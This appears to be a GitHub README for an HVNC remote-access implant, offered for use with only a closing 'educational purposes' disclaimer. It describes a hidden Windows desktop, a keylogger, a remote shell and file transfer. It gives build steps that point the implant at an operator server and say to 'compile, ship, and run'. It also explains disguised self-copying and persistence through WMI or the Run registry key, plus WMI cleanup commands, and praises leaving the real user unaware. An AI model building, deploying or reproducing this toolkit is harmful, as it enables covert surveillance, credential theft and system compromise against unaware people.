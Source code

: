 # Headless VNC (HVNC) Toolkit

> A stealth first remote-administration framework that spins up an invisible Windows desktop in memory and lets you drive it like a regular VNC session—only without the tell-tale screen flicker or user-side pop-ups.  
> Built for red-team operators who need *eyes-on-glass* access with the subtlety of a ghost.

---

## Repository Layout

| Path     | Role | Notes |
|----------|------|-------|
| **server/** | Server-side component | Accepts inbound HVNC tunnels, multiplexes sessions, prints each connection in its own console |
| **client/** | Client implant | Creates the hidden desktop, hooks keyboard / mouse, relays frames & input events |

> ⚠️ Every new connection opens in a separate console window handy for parallel ops and clean log separation.

---

## Supported Commands

| Constant | Action |
|----------|--------|
| `CMD_START_EXPLORER`     | Launch Windows Explorer explorer.exe |
| `CMD_START_RUN`          | Open the classic Run / cmd prompt cmd.exe |
| `CMD_START_CHROME`       | Launch Google Chrome |
| `CMD_START_EDGE`         | Launch Microsoft Edge |
| `CMD_START_BRAVE`        | Launch Brave |
| `CMD_START_FIREFOX`      | Launch Mozilla Firefox |
| `CMD_START_IEXPL`        | Launch Internet Explorer |
| `CMD_START_POWERSHELL`   | Open PowerShell |
| `CMD_SHELL_OPEN`         | Begin an interactive remote shell |
| `CMD_SHELL_COMMAND`      | Send a command to a shell already open |
| `CMD_FILE_LIST`          | Enumerate files / folders in a directory |
| `CMD_FILE_DOWNLOAD`      | Download a file from the remote box |
| `CMD_FILE_UPLOAD`        | Upload a file to the remote box |
| `CMD_KEYLOGGER_START`    | Start keylogging |
| `CMD_KEYLOGGER_STOP`     | Stop keylogging |

---

## Getting Started

1. **Server**

   ```
   cd server
   python server.py
   The script will prompt for a listening port  use the same port as the client build.
   ```

2. **Client**

   Edit client/main.cpp – set:

   ```cpp
   constexpr auto HOST = "SERVER_IP";
   constexpr uint16_t PORT = 4444;  // same as the server prompt
   ```

   Then compile, ship, and run.
   On first launch, the implant copies itself to:

   ```
   %LOCALAPPDATA%\Microsoft\Win32Components\
   ```

   and auto-starts at logon:

   * Admin → WMI subscription
   * Standard user → Run registry key

---

## Testing & Cleanup

Need a sterile host after the demo? Use the included PowerShell helper:

```
Remove artifacts, folders, autoruns
client\clean.ps1
```

### Manual WMI Check / Removal

```
Get-WmiObject -Namespace root\subscription -Class __EventFilter `
  -Filter "Name='Microsoft_Win32Filter'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class CommandLineEventConsumer `
  -Filter "Name='Microsoft_Win32Consumer'" | ForEach-Object { $_.Delete() }

Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | ForEach-Object { $_.Delete() }
```

Verify all gone:

```
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding `
  | Where-Object { $_.Consumer -match 'Microsoft_Win32Consumer' } `
  | Format-List Filter, Consumer
```

---

## Why HVNC?

Traditional VNC mirrors the users active desktop—any mouse wiggle or window pop-up is visible. Headless VNC instead:

1. Creates a brand new, invisible desktop WinSta0\HVNC in memory.
2. Runs spawned processes inside that hidden session completely off-screen.
3. Streams the pixels or GDI diffs back to the operator with negligible latency.
4. Leaves the real user blissfully unaware—no taskbar flashes, no window focus steals.

In short: you get a **full UI foothold** with the stealth of a backdoor shell.

---

## OPSEC Highlights

* **Console-per-session** → easy kill-switch & minimal cross-noise.
* **Auto-persistence** adapts to privilege level WMI vs. registry.
* **Keylogger** runs in-process no DLL drop on disk.
* **WMI cleanup script** shipped for safe red-team eject.

Yes, theres more on the roadmap: TLS tunneling, clipboard sync, multi-monitor capture watch the commits!

---

## 🚫 Disclaimer

This repository is provided for **educational purposes only** and intended for **authorized security research**.
Any **unauthorized use**—including but not limited to illicit surveillance, system compromise, or privacy invasion—is **strictly prohibited**.


